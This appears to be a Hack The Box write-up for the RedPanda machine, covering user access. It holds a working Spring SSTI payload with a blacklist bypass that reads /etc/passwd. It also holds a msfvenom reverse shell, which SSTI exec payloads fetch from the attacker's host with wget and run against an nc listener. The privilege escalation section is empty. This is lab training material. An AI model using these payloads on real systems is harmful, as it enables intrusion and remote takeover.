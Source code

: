 # redpanda-htb-walkthrough
<h3> About the Lab:</h3>
This is a Linux machine that requires exploiting SSTI in a Java SpringFramework application via a search bar on the webpage for RCE and then initial access. For privilege escalation, we will need to emulate what group the user is in, discover a log file he/she has access to, use pspy to discover a JAR file root periodically run, study that JAR file to discover conditions required to pass, exploiting directory traversal, and generate an XXE XML file to leak root’s SSH private key. The privilege escalation for this machine is HARD and shouldn’t be an easy category machine. But let’s get started!

## User Own:
Connect VPN first: `sudo openvpn [your.ovpn file]`<br>
First thing first, run nmap scan on the RedPanda server: `nmap -sS -A -p- -T4 [machine-ip]`<br>
**From nmap Enumeration:**<br>
**port 22**: SSH service<br>
**port 8080**: Red Panda Search (powered by Spring Boot)

We run some other tools as well to gather as much information possible to find out existing vulnerability in the system:<br>
`dirb [url] [wordlist]`<br>
`curl -v [url]`

![image](https://user-images.githubusercontent.com/31168741/203845250-2f90a1ca-396f-4546-865d-623841800910.png)
![image](https://user-images.githubusercontent.com/31168741/203845289-5f991ccb-a71c-4c2f-bcca-2ee00a747d45.png)

From above, we find out it is built in Spring framework Java. We found 3 accessible directories as well. Browse the website manually and inspect each endpoint with Burp Suite. If no input is provided, the search endpoint returns:

![empty_input](https://user-images.githubusercontent.com/31168741/203846234-ac32fa99-1973-4490-bb19-b6b760866f3b.png)

The stats provides some statistics for 2 different authors:<br>
**woodenk**<br>
**damian**<br>
and an export function, which generates a report for each specific user.

![stats_author_woodenk](https://user-images.githubusercontent.com/31168741/203846805-89cb2072-f645-401e-a253-dcbcac02bbfd.png)

Other than that, we've tested for various injections (SQL Injection, XXE Injection) etc. and turns out there is an SSTI injection within the search function, but some characters are blacklisted.<br>

<h3>So what is an SSTI Injection?</h3>
A server-side template injection occurs when an attacker is able to use native template syntax to inject a malicious payload into a template, which is then executed server-side. For further information: https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection<br>

A list of payloads that can be used for checking if the site is vulnerable to SSTI:

![Capture](https://user-images.githubusercontent.com/31168741/203847710-53ca4cb6-033e-440b-a85a-a952488b2f34.PNG)

4 of the payloads didn't work since some of the symbols are blacklisted by the server.

>**Error occured: banned characters**<br>

Oddly enough, the # (pound) symbol and * (star) have done the work and we can confirm the SSTI.

![ssti_confirmed](https://user-images.githubusercontent.com/31168741/203847928-026c15c3-ab62-415e-a887-7bc63588aabf.png)
![image](https://user-images.githubusercontent.com/31168741/203847951-a3bd0348-beee-42fe-98e0-7061a58dc19d.png)

Both mathematical operations 1+3+3+7 and 7+7 equals 14 we can tell that the payload got executed by the server, since we see the expected output.

<h3>SSTI into RCE:</h3>
The nmap scan reveals that the web application is powered by Spring Boot – so is it a Java application. Let's verify our payload by reading /etc/passwd. Use [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection)'s Template Injection cheat sheet and find a suitable payload that bypasses the blacklist filter.<br>
Hint: The payload won't work, unless we change the $ (dollar sign) to an * (asterisk).<br>

`${T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(99).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(112)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(119)).concat(T(java.lang.Character).toString(100))).getInputStream())}`

![image-1](https://user-images.githubusercontent.com/31168741/204106233-2b022041-c1d7-4155-86ab-91b8e5f3eacc.png)

<h3>Reverse Shell</h3>
Note: pentest.ws (Helps to create a reverse shell)
The shell:<br>
msfvenom -p linux/x64/shell_reverse_tcp LHOST=[your-machine-ip] LPORT=1234 -f elf > rs.elf<br>
Start your HTTP server in the same location as r.elf the reverse shell to the target machine: `python3 -m http.server 80`. Now the payload we'll use here is: `*{"".getClass().forName("java.lang.Runtime").getRuntime().exec("")}`; as it is java based (collected from github). Now intercept the get request from searchbar and put the payload in the value section accordingly:<br>
To transfer the payload to the target machine:<br>
`*{"".getClass().forName("java.lang.Runtime").getRuntime().exec("wget [your-machine-ip]/rs.elf")}`<br>
To change the permission:<br>
`*{"".getClass().forName("java.lang.Runtime").getRuntime().exec("chmod 777 ./rs.elf")}`<br>
Now we execute but before that, do not forget to generate a listener:<br>
`nc -lvnp 1234`<br>
Execute: `*{"".getClass().forName("java.lang.Runtime").getRuntime().exec("./rs.elf")}`<br>
Upgrading to the tty shell so that we can get a better view to follow: `python3 -c 'import pty; pty.spawn("/bin/bash")'`

![image](https://user-images.githubusercontent.com/31168741/204106736-02c77520-4e37-43a1-89ce-8383d18f52fc.png)

In the server yay! Pass for user Woodenk is found under the directory:<br>
>/home/woodenk<br>
>user.txt

## System Own:
<h3>Privilege Escalation</h3>






